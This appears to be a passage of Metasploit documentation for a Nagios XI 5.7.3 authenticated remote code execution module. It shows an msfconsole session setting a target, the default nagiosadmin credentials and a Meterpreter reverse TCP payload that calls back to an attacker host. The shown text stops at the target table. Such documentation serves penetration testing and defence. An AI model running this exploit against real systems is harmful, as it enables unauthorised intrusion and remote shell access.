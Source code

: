 ## Targets
```
Id  Name
--  ----
0   Linux (x86/x64)
1   CMD
```

## Scenarios
### Nagios XI 5.7.3 running on CentOS 7 - Linux target
```
msf > use exploit/linux/http/nagios_xi_mibs_authenticated_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set rhosts 192.168.1.16
rhosts => 192.168.1.16
msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set lhost 192.168.1.12
lhost => 192.168.1.12
msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set password nagiosadmin
password => nagiosadmin
msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_mibs_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so
                                              . This includes signing the license agreement.
   PASSWORD        nagiosadmin      yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.16     yes       The target host(s), range CIDR identifier, or hosts file with synt
                                              ax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                              address on the local machine or 0.0.0.0 to listen on all addresses
                                              .
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
```